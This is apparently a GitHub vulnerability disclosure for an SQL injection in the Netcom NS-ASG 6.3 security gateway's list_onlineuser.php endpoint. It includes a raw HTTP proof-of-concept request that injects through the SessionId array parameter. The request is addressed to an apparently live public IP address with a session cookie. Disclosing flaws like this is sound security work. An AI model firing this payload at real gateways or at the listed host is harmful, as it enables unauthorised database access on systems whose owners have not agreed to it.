 There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official website:https://www.netentsec.com/

version:NS-ASG 6.3

Vulnerability points：/admin/list_onlineuser.php

As shown in the figure, in the delete method, the array $SessionId variable is accepted and then iterated into the SQL statement without any restrictions, resulting in SQL injection
<img width="488" alt="image" src="https://github.com/Cubi123123123/cve/assets/146049123/82fd15c5-3875-489d-823c-080bf24b04a6">

Construct POC and successfully obtain database information Poc：
```
GET /admin/list_onlineuser.php?action=delete&SessionId[]=1' HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=f30e8a16a1b6373bbc11e1ce84445033
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://218.75.78.54:4443/admin/list_postlogin.php
Sec-Fetch-Dest: script
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

```
<img width="498" alt="image" src="https://github.com/Cubi123123123/cve/assets/146049123/02d5954d-1f2e-4112-aa49-84a454b61166">

<img width="476" alt="image" src="https://github.com/Cubi123123123/cve/assets/146049123/4191b543-8438-4328-9297-c9f87d852f69">
